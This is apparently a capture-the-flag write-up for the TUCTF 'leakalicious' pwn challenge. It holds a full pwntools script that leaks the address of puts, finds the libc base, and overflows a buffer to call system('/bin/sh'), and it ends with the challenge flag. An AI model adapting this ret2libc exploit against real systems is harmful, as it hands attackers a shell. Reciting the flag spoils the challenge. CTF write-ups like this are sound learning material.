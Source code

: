 # leakalicious

## PWN - Points: 500

> King Arthur has proposed this challenge for all those who consider themselves worthy.
>
> 
>
> nc chal.tuctf.com 30505
>
> [leakalicious](leakalicious)
>

Leak the address of `puts` and search for the correct `libc` version, e.g by using this website: https://libc.blukat.me/. Then calculate the offsets and overflow the buffer with `system` and `/bin/sh`.

Exploit script:

```python
from pwn import *

libc = ELF('libc6_2.29-0ubuntu2_i386.so')

# context.terminal = ['termite', '-e']
# p = gdb.debug('./leakalicious')
# p = process('leakalicious')
p = remote('chal.tuctf.com', 30505)

p.sendlineafter('> ', 'A' * 31)
print p.recvline()

libc_base = u32(p.recvline()[:-2]) - libc.symbols['puts']
print hex(libc_base)

sh = libc_base + libc.search("/bin/sh").next()

p.sendlineafter('> ', 'A')
p.sendlineafter('> ', 'A' * 44 + p32(libc_base+libc.symbols['system']) + p32(0x0) + p32(sh))
p.interactive()
```

flag: `TUCTF{cl0udy_w17h_4_ch4nc3_0f_l1bc}`